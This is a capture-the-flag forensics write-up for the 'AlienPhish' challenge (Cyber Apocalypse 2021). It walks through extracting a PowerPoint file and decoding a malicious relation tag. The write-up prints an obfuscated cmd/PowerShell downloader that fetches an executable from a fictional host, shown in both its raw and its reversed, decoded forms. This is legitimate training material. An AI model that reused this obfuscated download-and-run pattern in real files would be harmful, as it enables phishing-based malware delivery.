 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | AlienPhish Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: forensics
challenge: AlienPhish
tags: "forensics, starry, macros"
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## AlienPhish

> Solved by : Starry-Lord

* Unzip and find 'Alien Weaknesses.pptx'
* Unzip again and go to ppt/slides/_rels/
* Read slide1.xml.rels to find a suspicious relation tag

```
    cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

* Go to cyberchef 
* From url decode 
* Reverse 

```
    "%=!XCk*:XCk% llac 0 qel X% fi;pma&;pma&!1,X%~:My!!XCk!=XCk tes od)0;1-;221( ni X% L/ rof;pma&;pma&powershell -c "$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"=My tes"C/NO:V/ exe.dmc
```

```
    Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99
```

* From base64 and select the urlSafe alphabet

```
CHTB{pH1sHiNg_w0_m4cr0s???}
```

